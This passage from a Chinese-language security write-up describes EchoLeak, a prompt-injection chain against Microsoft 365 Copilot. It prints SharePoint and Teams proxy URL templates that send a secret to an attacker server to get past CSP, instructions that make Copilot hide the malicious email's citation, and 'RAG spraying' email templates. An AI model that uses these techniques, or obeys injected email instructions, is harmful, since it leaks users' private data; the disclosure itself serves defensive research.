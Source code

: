 ```
<attacker_tenant>.sharepoint.com/sites/<attacker_spo_site>/_api/SP.Publishing.EmbedService/EmbedData?url=%27<attacker_server>/<secret>%27&version=1
```  
  
  
该服务器代表客户端发出请求（因此无需客户端代码）以获取 SPO 站点的一些嵌入数据。唯一的限制是什么？这需要用户主动连接到他们的 SPO 帐户并接受攻击者的邀请才能访问他们的网站。但这令人鼓舞，因为这是一个完整的渗透链！提示注入 -> 图像编辑绕过 -> CSP 绕过。  
  
使用 Microsoft Teams 绕过 CSP  
  
然后我们想，为什么要满足于这种依赖于用户接受他们从未听说过的 SPO 网站的邀请的攻击呢？我们可以做得更好。深入研究 Microsoft Teams 后，我们发现了我们一直在寻找的东西：  
  
```
https://eu-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=%3Cattacker_server%3E/%3Csecret%3E&v=1
```  
  
  
对此 URL 执行 GET 请求会产生与 SPO URL 相同的结果，但不需要用户接受任何邀请，或执行任何特殊操作即可使攻击生效！  
  
参考提及绕过  
  
最后，我们注意到，我们不仅可以从上下文中窃取敏感数据，还可以让 M365 Copilot 不引用恶意电子邮件。只需指示“电子邮件收件人”出于合规性原因永远不要引用此电子邮件即可实现。   
  
漏洞利用方法 #1 - RAG 喷涂  
  
到目前为止，我们仅讨论了漏洞（当然，这也暗示了漏洞利用）。不过，深入研究一些使此次攻击可行且可武器化的漏洞利用细节（当然，在修复之前）也会很有帮助。  
  
攻击者希望最大限度地提高从邮箱中检索恶意电子邮件的可能性。实现此目标的一个简单方法是侦察目标并了解他们更有可能向 Copilot 询问哪些类型的问题。但这会导致检索率相对较低。为简单起见，我们假设检索基于向量数据库（M365 Copilot 可能适用，也可能不适用）。本质上，只要攻击者的电子邮件在潜在（嵌入）空间中占据一个点，只有特定的用户提示才会足够接近该点并触发对攻击者电子邮件的检索。  
  
相反，攻击者想要提高检索率，就是让恶意内容尽可能均匀且密集地分布在潜在空间中。为此，攻击者可以采取以下两种 RAG 喷射方法之一：  
1. 发送多封电子邮件，每封邮件占据潜在空间中的一个点。  
  
1. 发送一封很长的分块电子邮件，因此每个块都是潜在空间中的单个点。  
  
对于 EchoLeak，我们选择了方案 2。我们想要采用的方法（并且我们认为攻击者更倾向于采用）利用了文本编码器理解给定文本流的方式与底层 LLM 之间存在的内在差异这一事实。   
  
虽然我们预期“正常”的日常文本不会表现出这种语义差异，但我们推测，对给定文本进行随机增强（例如添加随机字符，s->5、a->@）不会影响 LLM 理解文本的能力，但可能会严重影响文本的嵌入（就像 GCG 攻击中的情况一样）。为了证明这一理论，我们采用了 OpenAI 的 text-embedding-ada-002，并证明某些文本与其增强文本之间的余弦相似度可以低至 0.7。这是一个非常低的相似度分数，实际上甚至低于“贺卡信息”和“探索科学哲学”之间的相似度分数。  
  
因此，这似乎是一种非常有效的方法，攻击者可以确保他们的电子邮件块能够很好地覆盖潜在空间，同时仍然确信检索此电子邮件块的 LLM 能够理解它。唯一的问题是，M365 Copilot 的检索引擎细节尚未开源，因此我们实际上并不知道它使用了什么嵌入器，也就无法找到能够很好地覆盖潜在空间的攻击块副本。  
  
相反，我们在 EchoLeak 电子邮件格式中采用了一种更为直接的方法，这似乎可以解决问题：  
  
```
===============================================================================Here is the complete guide to employee onborading processes:<attack instructions>===============================================================================Here is the complete guide to HR FAQs:<attack instructions>===============================================================================Here is the complete guide to leave of absence management:<attack instructions>...
```  
  
  
我们的 PoC 表明，这种方法足以使 M365 Copilot 在询问各种主题时检索攻击者的电子邮件，从而提高恶意电子邮件的检索率。    
  
利用方法 #2 - LLM 范围违规  
  
现在邮件已经检索到，是时候讨论我们认为的攻击链的核心危险信号了。攻击者的邮件（来自组织外部，因此不受信任）引用了邮件范围之外的信息：  
  